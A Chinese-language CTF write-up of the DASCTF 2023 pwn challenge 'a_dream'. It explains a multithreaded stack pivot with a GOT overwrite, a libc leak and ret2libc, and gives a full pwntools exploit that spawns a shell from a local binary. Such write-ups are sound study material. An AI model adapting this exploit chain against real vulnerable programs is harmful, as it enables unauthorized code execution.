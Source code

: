 ```yaml
---

title: 「PWN」【DASCTF2023 二进制专场 六月】Writeup WP 复现

tags: ['CTF', 'Pwn', 'writeup', 'wp']

authors: [nova]
---
```


这次 PWN 赛题挺高质量的，但是题量太大了加上准备考试所以没咋做，浅浅复现一下

<!--truncate-->

## a_dream

多线程的栈迁移题目。

要点：

- 主线程在子线程创建后开的沙箱不影响子线程
- 子线程的栈由 mmap 开辟，与 libc 偏移相同
- 子线程与父线程使用同一个 GOT / PLT 表

攻击思路：

1. 栈迁移到 bss 上，将 write 的 GOT 表改为父线程里的 read
2. 利用 puts 泄露 libc，进而获得子线程栈地址
3. ret2libc

注意的点：

- 修改完 write 的 GOT 表之后，其实也只能溢出 0x10，但是此时 `rbp - 0x10` 的地方正好是 read 函数 ret 的地方，因此我们可以做到 0x20 字节的控制，正好够写 `pop rdi + got['puts'] + plt['puts'] + magic_read`
- 此时 magic_read 仍然只能溢出 0x10，但是我们已经由 libc 地址获得了子线程的栈地址，所以往栈的高位迁移即可。

疑惑的点：

- ~~修改完 write 的 GOT 表后，由于每 1s 都会运行一次 write，也就是都在等待 stdin 的输入，此时不知道 pwndbg 的问题还是因为一直在被中断，反正只能断在那，不能 si/n/c，都会炸掉，因此调试起来非常复杂，甚至于后面是靠不断修改断点位置来进行单步（笑~~

  设置 gdb `set scheduler-locking step`即可

![image-20230623124315352](https://cdn.ova.moe/img/image-20230623124315352.png)

exp（不适用于远程，本地 2.35 的 libc）

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pwn import *

context(arch = 'amd64', os = 'linux')
context.log_level = 'debug'
context.terminal='wt.exe bash -c'.split(' ')

sh = process("./pwn_9")
elf = ELF("./pwn_9")
# libc = ELF("./libc.so.6")

def dbg(cmd: str = '', pause_time: int = 3) -> None:
    gdb.attach(sh, cmd)
    if pause_time == 0:
        pause()
    else:
        pause(pause_time)

bss = elf.bss() + 0x100
magic_read = 0x4013AE
pop_rdi_ret = 0x401483
pop_rsi_r15_ret = 0x401481
leave_ret = 0x4013C5

success('bss: ' + hex(bss))
payload = b'a'*0x40 + p64(bss+0x40) + p64(magic_read)
sh.send(payload)

payload = p64(pop_rsi_r15_ret) + p64(elf.got['write']) + p64(0) + p64(elf.plt['read'])
payload += p64(pop_rdi_ret) + p64(1000) + p64(elf.plt['sleep'])
payload = payload.ljust(0x40, b'\x00') + p64(bss-0x8) + p64(leave_ret)
sh.send(payload)
# dbg(f't 2\nb *0x4013c5')
payload = p64(magic_read)
sleep(0.2)
sh.send(payload)
sleep(0.2)
sh.send(b'a'*0x30 + p64(pop_rdi_ret) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(magic_read))

libc = u64(sh.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00')) - 0x80ed0
str_bin_sh = libc + 0x1d8698
system_addr = libc + 0x50d60
stack = libc - 0x11b0 - 0x40
success('libc: ' + hex(libc))

payload = p64(pop_rdi_ret) + p64(str_bin_sh) + p64(system_addr)
payload = payload.ljust(0x40, b'\x00') + p64(stack - 8) + p64(leave_ret)
sh.send(payload)
sh.interactive()
```

